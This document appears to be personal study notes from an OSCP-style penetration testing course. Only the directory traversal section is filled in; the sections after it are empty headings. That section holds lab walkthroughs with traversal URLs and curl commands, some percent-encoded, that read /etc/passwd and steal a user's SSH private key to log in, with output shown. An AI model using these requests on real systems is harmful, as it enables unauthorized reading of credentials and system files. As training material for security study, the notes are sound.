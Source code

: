 
#### 9.1. Directory Traversal


###### 9.1.1. Absolute vs Relative Paths
1. Absolute Path - cat /etc/passwd
2. Relative Path - cat ../../../../etc/passwd 

*Lab Exercise* 
1. Content
2. Content

###### 9.1.2. Identifying and Exploiting Directory Traversals

1. Try to find out such link by hovering on webpage. 
```
https://example.com/cms/login.php?language=en.html
```
2. Check out etc passwd file. 
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```
3. Find out SSH keys. 
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```
4. Save ssh keys in new file. 
5. Establish ssh connection, flag obtained. 
```
┌──(kali㉿kali)-[~/OSCP/9]
└─$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
The authenticity of host '[mountaindesserts.com]:2222 ([192.168.226.16]:2222)' can't be established.
ED25519 key fingerprint is SHA256:EhEUVlXm/sRKDZLdE5F6w6mb8Gul5rjBcGOKqlJhClM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes    
Warning: Permanently added '[mountaindesserts.com]:2222' (ED25519) to the list of known hosts.
Linux d0d84fd8e502 5.4.0-132-generic #148-Ubuntu SMP Mon Oct 17 16:02:06 UTC 2022 x86_64
OS{a4284896cb46d505de60cfe3bae70a53}
```


*Lab Exercise*
1. Follow walkthrough. 
2. curl --path-as-is http://192.168.226.193:3000/public/plugins/mysql/../../../../../../../../Users/install.txt
 
###### 9.1.3. Encoding Special Characters
1. Checkgin directory traversal vulnerability using ../
```
┌──(kali㉿kali)-[~/OSCP/9]
└─$ curl http://192.168.226.16/cgi-bin/../../../../etc/passwd
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>

┌──(kali㉿kali)-[~/OSCP/9]
└─$ curl http://192.168.226.16/cgi-bin/../../../../../../etc/passwd
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The request
```

2. Using encoded dots for directory transversal (Replacing . with %2e)
```
┌──(kali㉿kali)-[~/OSCP/9]
└─$ curl http://192.168.226.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
alfred:x:1000:1000::/home/alfred:/bin/bash

```

*Lab Exercise*
1. curl http://192.168.226.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords
2. curl --path-as-is http://192.168.226.16:3000/public/plugins/mysql/../../../../../../../../opt/install.txt


#### 9.2. File Inclusion Vulnerabilities

###### 9.2.1. Local File Inclusion (LFI)\
1. Log entry


###### 9.2.2. PHP Wrappers

###### 9.2.3. Remote File Inclusion (RFI)




#### 9.3. File Upload Vulnerabilities

###### 9.3.1. Using Executable Files

###### 9.3.2. Using Non-Executable Files



#### 9.4. Command Injection

###### 9.4.1. OS Command Injection



#### 9.5. Wrapping Up

